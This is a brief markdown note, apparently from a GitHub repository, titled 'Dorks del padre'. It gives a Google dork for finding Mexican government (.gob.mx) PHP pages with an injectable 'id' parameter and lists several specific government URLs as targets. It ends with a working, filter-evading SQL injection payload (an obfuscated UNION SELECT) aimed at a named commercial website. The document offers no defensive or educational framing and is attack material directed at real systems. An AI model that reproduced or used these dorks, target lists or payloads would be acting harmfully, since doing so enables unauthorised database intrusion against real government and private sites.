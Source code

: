 ## Dorks del padre

````
inurl:.page.php?id= site:.gob.mx
````

##

````
http[:]//www[.]fifonafe[.]gob[.]mx/gerenciamiento/sec2[.]php?id=56
https[:]//apps[.]tlaquepaque[.]gob[.]mx/registro[.]php?id=5
https://www.segobver.gob.mx/culturadepaz/evento.php?id=2thSVnv1FcziQRC
````

## Externals

````
https://themastersteel.com/discover.php?id=-1++/*!50000%55nIoN*/ /*!50000%53eLeCt*/+1,2,3,4,5--+-
````
